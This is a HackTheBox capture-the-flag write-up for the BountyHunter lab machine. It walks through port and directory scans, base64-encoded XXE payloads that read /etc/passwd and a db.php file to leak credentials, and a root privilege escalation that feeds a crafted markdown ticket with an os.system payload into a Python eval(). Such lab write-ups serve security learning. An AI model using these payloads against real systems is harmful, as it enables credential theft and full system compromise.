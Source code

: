 
# HackTheBox(HTB) - BountyHunter - WriteUp

> Austin Lai | November 18th, 2021

---

<!-- Description -->

![BountyHunter](img/BountyHunter.png)

Difficulty: Easy

The room is completed on November 03rd, 2021

<!-- /Description -->

## Table of Contents

<!-- TOC -->

- [HackTheBox(HTB) - BountyHunter - WriteUp](#hacktheboxhtb---bountyhunter---writeup)
    - [Table of Contents](#table-of-contents)
    - [Let's Begin Here !!!](#lets-begin-here-)

<!-- /TOC -->

---

## Let's Begin Here !!!

Start the instance and perform rustscan for network reconnaissance.

Rustscan:

```bash
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time âO>
[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.100:22
Open 10.10.11.100:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
[~] Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-03 20:30 +08
Scanned at 2021-11-03 20:30:48 +08 for 7s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 8.54 seconds
           Raw packets sent: 2 (88B) | Rcvd: 2 (88B)
```

Check on port 80 - HTTP.

Main page:

![main-page](img/main-page.png)

Portal page:

![portal-page](img/portal-page.png)

Bounty Report System page:

![bounty-report-system-page](img/bounty-report-system-page.png)

And we perform a web fuzzing through gobuster directories listing.

Gobuster:

```bash
http://10.10.11.100/.hta                 (Status: 403) [Size: 277]
http://10.10.11.100/.htaccess            (Status: 403) [Size: 277]
http://10.10.11.100/.htpasswd            (Status: 403) [Size: 277]
http://10.10.11.100/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]
http://10.10.11.100/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]
http://10.10.11.100/index.php            (Status: 200) [Size: 25169]
http://10.10.11.100/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/]
http://10.10.11.100/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]
http://10.10.11.100/server-status        (Status: 403) [Size: 277]
```

There is one directory named ` resources ` contain interesting files:

![resources-page](img/resources-page.png)

Checking across all the files, ` README.txt ` is a checklist of tasks

![readme](img/readme.png)

And ` bountylog.js ` show the code to process and how the bounty report system work:

![bountylog-js](img/bountylog-js.png)

Then we decide to test out the bounty report system:

![testing-bounty-report-system](img/testing-bounty-report-system.png)

Checking the request information using browser developer tools, there is an interesting base64 information in the form data:

![request-header](img/request-header.png)

Decode the base64 and we get XML:

![decode-base64-request-header](img/decode-base64-request-header.png)

Seem like we can perform XXE Injection Attack.

We craft a basic XXE Injection payload here and encode with base64, best to use [CyberChef](https://gchq.github.io/CyberChef/) to encode to base64 and URL encode to encode all special characters:

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [<!ENTITY ent SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd"> ]>
<bugreport>
<title>&ent;</title>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>test</reward>
</bugreport>
```

Result of encoding:

![result-of-encoding](img/result-of-encoding.png)

Now we can use ` curl ` command to post our payload to bounty report system, base on the information from ` bountylog.js `; it will be send the post request to ` tracker_diRbPr00f314.php` 

Result of post request using ` curl `:

![result-post-payload-curl](img/result-post-payload-curl.png)

The result we get contain a big chunk of base64, let's decode it and we get the ` /etc/passwd `

![passwd-output](img/passwd-output.png)

Great ! We have a workable XXE Injection attacks, now we target to read ` db.php ` that usually located at ` /var/www/html/ `.

Why we target ` db.php `? The ` README.txt ` shown there is a database connection from bounty report system; and ` db.php ` often contain plain text credential.

So in this case, we craft our XXE payload to read ` db.php `:

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [<!ENTITY ent SYSTEM "php://filter/read=convert.base64-encode/resource=db.php"> ]>
<bugreport>
<title>&ent;</title>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>test</reward>
</bugreport>
```

And we encode it with base64 and URL encoding as well, then we use ` curl ` to post request to bounty report system along with our new payload to read ` db.php `.

Result of our new payload:

![result-new-xxe-payload](img/result-new-xxe-payload.png)

Then we decode it with base64 and we have a valid credential:

![valid-creds](img/valid-creds.png)

We tried to login to ssh using the credential we found, however unsuccessful.

While checking the ` /etc/passwd ` that we gotten ealier, there is another user - ` development `.

Using ` development `, we are now logging in to the system.

Checking user home directory.

![user.txt-and-contract.txt](img/user.txt-and-contract.txt.png)

Check sudo command:

![development-sudo](img/development-sudo.png)

From the sudo command, we know that ` development ` user can run python along with the ` ticketValidator.py `.

We examine the content of ` ticketValidator.py `.

<details><summary>ticketValidator.py</summary>

```python
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

</details>

![ticketValidator.py](img/ticketValidator.py.png)

Based on the context of the script, we can supply our own markdown file with malicious payload.

If you carefully examine the script, there is a python evaluate statement, mean we can execute command using python evaluate statement.

In order to craft a valid markdown file to supply to the script, there are a few things to be included.

The markdown file must contain below as the script will validate the exact contain:

```
# Skytrain Inc 
## Ticket to 
__Ticket Code:__
```

The last part is calculation, the code we craft must start with ** and able to Modulus by 7 and equal to 4.

```
**102+ 10 == 112 
```

Then we append our payload after the code with ` and ` operator, python evaluate statement will process anything after ` and ` operator.

Our final content of the markdown file will be:

```
# Skytrain Inc 
## Ticket to 
__Ticket Code:__
**102+ 10 == 112 and __import__('os').system('cat /root/root.txt') == False
```

We save the markdown file as ` root.md ` in the ` development ` home directory.

![root.md](img/root.md.png)

Now we run the script and supply our own markdown file.

![root.txt](img/root.txt.png)

<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB

